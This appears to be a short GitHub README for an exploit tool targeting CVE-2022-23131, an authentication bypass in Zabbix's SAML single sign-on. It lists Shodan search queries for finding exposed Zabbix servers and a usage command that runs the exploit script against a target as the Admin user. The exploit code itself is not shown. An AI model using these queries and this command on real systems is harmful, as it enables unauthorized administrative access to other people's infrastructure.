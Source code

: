 # CVE-2022-23131
Zabbix - SAML SSO Authentication Bypass
- Shodan dork:
```
title:zabbix
```
```
http.favicon.hash:892542951
```
- Usage
```
python3 zabbix_session_exp.py -t https:target.com -u Admin
```
### Demonstration Video (0:33)
[Zabbix - SAML SSO Authentication Bypass](https://youtu.be/xVY98l0QU-M)
<!-- https://habr.com/ru/companies/deiteriylab/articles/656829/ -->
